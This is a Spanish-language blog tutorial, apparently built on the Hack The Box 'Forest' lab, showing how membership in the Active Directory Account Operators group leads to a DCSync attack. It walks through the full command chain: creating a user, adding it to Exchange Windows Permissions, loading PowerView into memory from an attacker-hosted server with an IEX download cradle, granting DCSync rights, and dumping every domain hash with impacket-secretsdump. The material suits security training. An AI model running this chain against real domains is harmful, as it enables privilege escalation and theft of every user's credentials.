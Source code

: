 ```yaml
---
title: Active Directory - Abusando del Grupo Account Operators
description: Abusando del grupo Account Operators para desencadenar en un DCSync Attack.
date: 2024-11-06
categories: [active-directory, account-operators]
tags: [grupos-de-usuarios-especiales, dcsync, secretsdump, exchange-windows-permissions, escalada-de-privilegios, casos-de-ataques-ad]
img_path: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
image: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
---
```


## **Introducción**

El grupo **Account Operators** lo que nos permite es la creación, modificación y eliminación de usuarios y grupos. Es por esto, por lo que supone una vía potencial de **escalada de privilegios** ya que podemos crear un usuario y asignarle el grupo *Exchange Windows Permissions* el cual, nos permitirá efectuar un *DCSync Attack*.

### **Gráfico del escenario**

En este escenario, aprenderemos a abusar del grupo **Account Operators** para poder realizar un *DCSync Attack*. Primero, crearemos un usuario aprovechando los permisos del grupo **Account Operators**. A este usuario, lo añadiremos al grupo **Exchange Windows Permissions**, desde el cual podremos asignarnos el privilegio de *DCSync*.

![esquema representativo para un dcsync desde svc-alfresco](/assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png)

### **Contexto**

Supongamos que estamos en el grupo *Account Operators*, o en algún grupo que indirectamente sea miembro de dicho grupo. En este caso, nos encontramos como el usuario *svc-alfresco* el cual, es miembro del grupo *Service Accounts*.

![net user svc-alfresco](/assets/img/net-user-svc-alfresco.png)

Este grupo a su vez es miembro de *Privileged IT Accounts* y este mimo grupo a su vez, pertenece al grupo de *Account Operators*. Desde el grupo de *Account Operators* podemos añadir un usuario al grupo de *Exchange Windows Permissions*, desde el cual nos podremos asignar el privilegio de *DCSync* y **dumpearnos todos los hashes NTLMv2 de todos los usuarios del dominio**.

Todo esto, lo podemos ver más claro desde BloodHound.

![esquema de ataque para un dcsync desde svc-alfresco](/assets/img/esquema-de-ataque-para-un-dcsync-desde-svc-alfresco.png)

Al pertenecer indirectamente al grupo **Account Operators**, la cuenta *svc-alfresco* obtiene privilegios que le permiten realizar tareas como:

- **Crear, modificar y eliminar cuentas de usuario**.
- **Gestión de la membresía del grupo**.
- **Desbloqueo y restablecimiento de contraseñas**.
- **Gestión de propiedades de cuenta**.
- **Asignación y modificación de derechos de usuario**.

## **Manos a la obra**

Para abusar de esto, primeramente empezaremos creando un usuario y añadirle al dominio.

```powershell
net user hegociv hegociv123 /add /domain
```

Podemos comprobar las propiedades de este usuario.

```powershell
net user hegociv
```

![net user hegociv](/assets/img/net-user-hegociv.png)

Seguidamente, vamos a ver los grupos a los que le podemos asignar. En esta lista si observamos, nos encontramos con el grupo *Exchange Windows Permissions*.

![net group exchange windows permissions](/assets/img/net-group-exchange-windows-permissions.png)

Este grupo, tiene el permiso de **WriteDacl access** sobre el dominio (en este caso, sobre *htb.local*), que permite a cualquier miembro de este grupo, modificar los privilegios del dominio. Entre ellos, se encuentra el **privilegio de DCSync**.

Ahora que vemos que el grupo de *Exchange Windows Permissions* está disponible, añadiremos al usuario *hegociv*.

```powershell
net group "Exchange Windows Permissions" hegociv /add
```

Si visualizamos de nuevo, las propiedades de este usuario, veremos como ahora pertenecemos a este grupo.

![net user hegociv exchange windows permissions](/assets/img/net-user-hegociv-exchange-windows-permissions.png)

También, podemos ver los miembros y la información de este grupo.

```powershell
net group "Exchange Windows Permissions"
```

![net group exchange windows permissions information](/assets/img/net-group-exchange-windows-permissions-information.png)

En este momento, nos encontramos en el punto en el que deberemos de asignar el privilegio de *DCSync* pero antes, deberemos de configurar las credenciales del usuario con los siguientes comandos.

```powershell
$SecPassword = ConvertTo-SecureString 'hegociv123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMINIO\hegociv', $SecPassword)
```

En este caso, el *DOMINIO* será `htb.local`, por lo que deberemos de dejar este último comando de la siguiente manera.

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hegociv', $SecPassword)
```

Una vez que hemos creado el objeto, podremos manipularlo con `Add-DomainObjectAcl` para decirle: "*quiero que este usuario, cuya credencial es esta, asignarle el privilegio de DCSync*". Sin embargo, el comando de `Add-DomainObjectAcl` no existe de primeras, por lo que tendremos que invocarlo.

Para invocarlo, usaremos *[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* desde el que nos descargaremos el binario de *[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)*.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
```

Seguidamente, realizaremos una carga remota, por lo que nos ponemos primeramente en escucha con *Python3*, desde la ruta en la que se encuentra el binario de *PowerView.ps1*.

```bash
python3 -m http.server 8080
```

E invocaremos el binario desde *PowerShell* en la máquina víctima.

```powershell
IEX(New-Object Net.WebClient).downloadString('http://NUESTRA-IP:8080/PowerView.ps1')
```

Gracias a esto, habremos invocado el comando directamente.

![invocando el comando remotamente](/assets/img/invocando-el-comando-remotamente.png)

Ahora sí, podremos ejecutar el comando `Add-DomainObjectAcl` para asignar el privilegio de *DCSync*. Teniendo en cuenta que, nuestro dominio es *htb.local* y nuestro usuario es *hegociv*, deberemos de ejecutar el comando de la siguiente manera. Si tenemos otros datos, modificaremos estos mismos para que adaptarlo a nuestro caso.

>**A tener en cuenta**<br>
>El propio *BloodHound*, nos dice de asignar el privilegio *DCSync* de la siguiente forma:
>
>`Add-DomainObjectAcl -Credential $Cred -TargetIdentity DOMINIO -Rights DCSync`
>
>Sin embargo, este comando no nos funcionará correctamente y se nos quedará pillado. Por eso, debemos de modificar este comando para que funcione adecuadamente.

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hegociv -Rights DCSync
```

Ahora sí, podremos **dumpear todos los hashes NTLMv2 de los usuarios**. Para ello, usaremos `secretsdump.py` o `impacket-secretsdump`, indicándole el dominio, usuario e IP del DC correspondiente. Además, podemos indicarle que nos guarde todos los *hashes* en un fichero que nosotros le indicaremos con el parámetro `-outputfile`.

```bash
impacket-secretsdump DOMINIO/hegociv@IP -outputfile dcsync_hashes
```

![dumpeando todos los hashes NTLMv2 del dominio con impacket-secretsdump](/assets/img/dumpeando-todos-los-hashes-NTLMv2-del-dominio-con-impacket-secretsdump.png)

Podemos visualizar estos *hashes*, en el fichero que le hemos especificado más `.ntds`.

![fichero dcsync_hashes ntds secretsdump](/assets/img/fichero-dcsync-hashes-ntds-secretsdump.png)

## Enlaces de referencia
Los siguientes son una serie de enlaces los cuales, me han ayudado a realizar este artículo y a aprender sobre ello.

- [Account Operators Privilege Escalation](https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation)
- [Resolución de la Máquina Forest - S4vitar](https://www.youtube.com/watch?v=7G5wkoBpFWU)
- [HackTricks - Dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [Everything you need to know about DCSync attacks](https://blog.quest.com/everything-you-need-to-know-about-dcsync-attacks/)

## Despedida
Muchas gracias por leer este artículo, espero que hayas aprendido mucho sobre este escenario en el que abusamos del grupo de **Account Operators** para derivarlo a un **DCSync Attack**. ¡Nos vemos en la próxima
